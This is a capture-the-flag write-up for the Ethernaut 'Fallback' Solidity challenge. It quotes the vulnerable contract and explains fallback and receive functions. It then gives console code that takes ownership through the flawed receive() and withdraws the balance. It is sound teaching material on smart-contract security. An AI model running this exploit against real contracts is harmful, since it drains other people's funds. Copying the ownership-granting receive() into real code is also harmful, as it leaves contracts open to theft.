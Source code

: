 # 01. Fallback
<sup>Difficulty 1/10</sup>

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0
  
Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

## Solution

While creating the contract, the owner get a contribution of 1000 ETH

```solidity
constructor() public {
	owner = msg.sender;
	contributions[msg.sender] = 1000 * (1 ether);
}
```	

There are two ways to get the ownership:

```solidity
// 1. Send 1000+ ETH, funding 0.0009 ETH at time
function contribute() public payable {
	require(msg.value < 0.001 ether);
	contributions[msg.sender] += msg.value;
	if(contributions[msg.sender] > contributions[owner]) {
		owner = msg.sender;
	}
}
```

Or, less tediously, send one contribution, and then exploit the fallback method:

```solidity
// 2. Exploit the fallback function
receive() external payable {
	require(msg.value > 0 && contributions[msg.sender] > 0);
	owner = msg.sender;
}
```

Fallback function is a special function available to a contract. It has following features: 

- It is called when a non-existent function is called on the contract.
- It is required to be marked external.
- It has no name.
- It has no arguments
- It can not return any thing.
- It can be defined one per contract.
- If not marked payable, it will throw exception if contract receives plain ether without data.

Solution:

```javascript
async function amIOwner() {
    const currentOwner = await contract.owner()
    return currentOwner == player
}


await contract.contribute({value: toWei('0.0001')})
await contract.sendTransaction({from: player, value: toWei('0.000001')})
await amIOwner()
// true
await contract.withdraw()
```

